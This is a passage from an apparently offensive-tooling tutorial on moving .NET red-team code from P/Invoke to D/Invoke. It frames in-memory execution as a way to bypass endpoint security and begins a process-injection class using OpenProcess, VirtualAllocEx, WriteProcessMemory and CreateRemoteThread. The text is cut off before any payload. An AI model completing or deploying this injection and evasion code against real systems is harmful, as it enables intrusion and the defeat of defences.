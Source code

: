 # Migrating from P/Invoke to D/Invoke

As most offensive tool developers knows well, .NET provides a mechanism called Platform Invoke (aka P/Invoke) 
that allows to call unmanaged APIs directly from .NET applications. 
This technique has been the default technique to craft offensive .NET Assemblies for long time. 
Since .NET Assemblies are also relatively easy to reflectively load and execute (in-memory), 
this provided operators with an easy technique to achieve file-less arbitrary code execution on a target,
bypassing endpoint security solutions.

Moreover, using P/Invoke is extremely easy. The only requirement is to add the reference to `System.Runtime.InteropServices`
and declare the signature of the API we want to use, in order to call it later from the main program.

Let's suppose we want to use the `MessageBox` API from `user32.dll`. The steps would be the following:
* Search the signature on [https://www.pinvoke.net/](https://www.pinvoke.net/)
* Add `System.Runtime.InteropServices` as reference
* Just call `MessageBox` in the main program

```csharp
using System;
using System.Runtime.InteropServices;

public static void Main(string[] args){
    MessageBox(0, "Did you call me?", "Wake-up", 0);
}

[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);

```

This was a trivial example? Well, turns out it's the same story with process injection. Let's have a look at
the example below:

```csharp
using System;
using System.Runtime.InteropServices;

namespace Inject
{
	public class Inject
	{
        [DllImport("kernel32.dll")]
        public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
        
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);
        
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        
        public static void Main(string[] args)
        {			
```